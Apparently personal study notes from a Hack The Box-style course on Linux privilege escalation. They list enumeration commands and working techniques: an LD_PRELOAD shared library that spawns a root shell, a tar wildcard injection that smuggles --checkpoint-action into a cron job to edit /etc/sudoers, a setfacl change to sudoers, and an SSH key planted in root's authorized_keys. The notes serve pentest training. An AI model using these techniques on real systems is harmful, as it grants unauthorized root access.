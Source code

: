 # Sudoers
```shell-session
$ sudo -l
```
# Group Memberships
Interesting groups to be part of:
- LXC / LXD
- Docker
- Disk
- ADM
# Cron Jobs
1. **`/etc/crontab`**
2. **`/etc/cron.d`**
3. **`/etc/cron.daily/`**
4. **`/var/spool/cron/crontabs/root`**
# Processes
Check running processes, could hint at possible VM machine, prompting [[VM Escape]].
# User Privileges
1. Sudo
2. SUID
3. Windows Token Privileges
## Sudoers
If the file `etc/sudoers` /could be made editable (for example using `setfacl`, add sudo privileges directly and `sudo su` to get root.
```bash
setfacl -m u:$USER:$perm /etc/sudoers
```
if `setfacl` can be run as sudo from low_priv user.
## Exposed Credentials
* bash_history
* mysql_history
# SSH Keys
If we have read/write access on **`.ssh`**  directory, we can get/create SSH connection.

Generate public-private key and paste the public in server
```bash
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```
# [[Databases]]
# Environment Variables
## `env_keep+=LD_PRELOAD`
If we can run any one command as root with this environment variable, we can load our own malicious shared library here.
```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```shell-session
$ gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
$ sudo LD_PRELOAD=exploit.so <COMMAND>
```
# Capabilities
Grants specific privileges(s) to processes.
## Enumerate Capabilities
```shell-session
$ find $(echo $PATH | tr ':' ' ') -type f -exec getcap {} \;
```
# Writeable Files/Directories
```shell-session
$ find / -path /proc -prune -o -type <f/d> -perm -o+w 2>/dev/null
```
# Hidden Files/Directories
```shell-session
$ find / -type <f/d> -name ".*" -ls 2>/dev/null
```
# History Files
```shell-session
$ find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null
```
# Temporary Files
```shell-session
$ ls -l /tmp /var/tmp /dev/shm
```
# Configuration Files
```shell-session
$ find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null
```
# SetUID/SetGID
```shell-session
$ find / -user root -perm -<4/6>000 -exec ls -ldb {} \; 2>/dev/null
```
# System Properties
## OS Release
```shell-session
$ cat /etc/os-release
```
## System Path
```shell-session
$ echo $PATH
```
## Environment Variables
```shell-session
$ env
```
## Environment
```shell-session
$ uname -a
$ lscpu
$ lsblk
$ cat /etc/shells
$ cat /etc/fstab
$ route

$ cat `/etc/resolv.conf`                  # Private DNS?
```
## Installed Applications
```shell-session
$ apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list
$ sudo -V
```

# Extras
- All writable files by us
```shell-session
$ find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
# Wildcard Abuse
When certain applications are run with wildcards, they can be abused:
Example:
```c
# cron job
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```
```shell-session
$ echo 'echo "<user> ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
$ echo "" > "--checkpoint-action=exec=sh root.sh"
$ echo "" > --checkpoint=1
```
This will replace the wildcard with these files which will act as flags for the `tar` command in the cron job.
# Hardening Services
Look out for system defenses such as:
- [Exec Shield](https://en.wikipedia.org/wiki/Exec_Shield)
- [iptables](https://linux.die.net/man/8/iptables)
- [AppArmor](https://apparmor.net/)
- [SELinux](https://www.redhat.com/en/topics/linux/what-is-selinux)
- [Fail2ban](https://github.com/fail2ban/fail2ban)
- [Snort](https://www.snort.org/faq/what-is-snort)
- [Uncomplicated Firewall (ufw)](https://wiki.ubuntu.com/UncomplicatedFirewall)